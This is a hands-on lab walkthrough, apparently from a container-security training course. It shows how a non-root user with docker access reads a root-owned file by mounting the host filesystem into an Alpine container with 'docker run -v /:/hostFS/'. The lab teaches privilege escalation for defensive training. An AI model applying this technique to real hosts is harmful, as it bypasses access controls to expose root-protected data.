 ## Authentication Attacks against Host

###### A `non-root user` with access to docker can gain access to root filesystem of the host machine.

##### Step 1:

* Open Terminal

	![](img/Open-Terminal.png)

##### Step 2:

*  **cd** into  `/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host`

    ```commandline
    cd /home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host
    ```

##### Step 3:

* Run `sudo su` to become root user.

    ```commandline
      root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# sudo su
      root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
##### Step 4:

* Create a `secret.txt` file inside `/root/` directory.

    ```commandline
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# touch /root/secret.txt
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
##### Step 5:

* Open `secret.txt` and write some secret in it.

    **Note:** 
    1. `esc+i` to insert character into the file,
    2. `esc+:+wq` to save and exit from the file.

    ```commandline
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# vim /root/secret.txt
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
    
        
##### Step 6: 
  
* Run `sudo su user` login as a normal user.

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# sudo su user
    user@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host$
    ```

##### Step 7: 
  
* Run `cat /root/secret.txt` read the content of secret.txt file.

    ```commandline
    user@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host$ cat /root/secret.txt
    cat: /root/secret.txt: Permission denied
    ```

##### Step 8:

* Run `exit` to exit as a normal user

    ```commandline
    user@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host$ exit
    exit
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# 
    ```

##### Step 9: 
* Run `docker run -ti --rm -v /:/hostFS/ alpine` as `docker-user`(non-root user)

    ```commandline
    root@we45:~/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host# docker run -ti -v /:/hostFS/ alpine
    / #     
    ```
    
##### Step 10:

* Run `cd /hostFS/root/` to access the toot directory.

    ```commandline
    / # cd /hostFS/root/
    /hostFS/root # 
    ```
    
##### Step 11:  

* Run `ls` to check the secret.txt file inside a container.

    ```commandline
    /hostFS/root # ls
    secret.txt
    ``` 
    
##### Step 12:

* Run `cat secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
secret

``` 

**Note** : Now the docker-user has the privilege to view the root user data.


##### Step 13:

* Run `exit` to exit from the container.

    ```commandline
    /hostFS/root # exit
    root@we45:/home/we45/container_training/Container/Container-Attacks/Authentication-Attacks-against-Host#
    ```
